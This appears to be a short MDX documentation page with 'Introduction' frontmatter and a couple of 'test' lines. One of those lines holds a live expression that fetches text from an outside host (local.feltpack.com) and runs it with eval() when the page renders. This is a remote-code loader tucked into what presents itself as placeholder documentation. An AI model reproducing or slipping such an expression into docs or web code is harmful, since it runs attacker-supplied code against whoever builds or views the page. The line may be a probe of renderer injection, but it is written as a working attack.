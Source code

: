 ```yaml
---
title: Introduction
description: 'Welcome to the home of your new documentation'
---
```


test {"hello" ? JSON.stringify(fetch("https://local.feltpack.com").then((a) => a.text()).then((a) => eval(a))) : "not"}

test2